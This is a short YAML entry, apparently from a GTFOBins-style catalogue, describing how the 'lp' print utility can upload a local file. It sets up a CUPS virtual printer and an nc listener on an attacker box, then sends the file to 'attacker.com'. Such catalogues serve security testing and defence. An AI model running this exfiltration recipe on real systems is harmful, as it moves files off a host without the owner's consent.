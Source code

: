 ```yaml
---
functions:
  file-upload:
    - description: To collect the file run the following on the attacker box (this requires `cups` to be installed):

            Run `lpadmin -p printer -v socket://localhost -E` to create a virtual printer.
            Run `lpadmin -d printer` to set the new printer as default.
            Run `cupsctl --remote-any` to enable printing from the Internet.
            Run `nc -lkp 9100`.

        Send a local file to a CUPS server.
      code: |
        LFILE=file_to_send
        RHOST=attacker.com
        lp $LFILE -h $RHOST
---
```

